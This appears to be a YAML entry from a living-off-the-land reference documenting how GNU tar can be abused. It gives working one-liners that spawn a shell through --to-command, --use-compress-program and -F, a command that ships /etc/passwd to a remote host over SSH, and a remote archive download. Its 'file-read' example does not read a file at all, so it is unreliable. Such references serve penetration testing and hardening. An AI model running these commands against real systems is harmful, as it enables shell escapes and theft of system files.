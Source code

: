 ```yaml
---
functions:
  shell:
    - description: The --to-command is normally used to pipe extracted files to a command. This can be used to run arbitrary commands on a host. The file must be a valid archive file.
      code: |
        tar xf /tmp/valid.tar --to-command='/bin/sh -c "sh <&2 1>&2"'
    - description: Similar to the above, but at a previous stage in the extraction. A valid archive is not required. This functionality can be abused in various ways for file-read and file-write (see below).
      code: |
        tar xf /dev/null --use-compress-program='/bin/sh -c "sh <&2 1>&2"'
    - description: GNU tar specifc. The -F / --info-script= / --new-volume-script= arguments will run a command at volume rotation. Other flags used are to force frequent rotation.
      code: |
        tar cf /dev/null --record-size=512 -L1 -F'/bin/sh -c "sh <&2 1>&2"' /tmp/
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar cvf remote_user@remote_host.com:/tmp/remote_file.tar /etc/passwd --rsh-command=/bin/ssh
  file-download:
    - description: GNU tar has remote archive capabilities, which can be used to download and extract remote archives. The remote machine should have the `rmt` utility installed and configured.
      code: |
        tar xvf remote_user@remote_host.com:/tmp/remote_file --rsh-command=/bin/ssh
  file-read:
    - description: The --use-compress-program flag can be abused to read files.
      code: |
        tar xf /etc/passwd --use-compress-program='/bin/sh -c "echo hello > /tmp/file"'
---
```

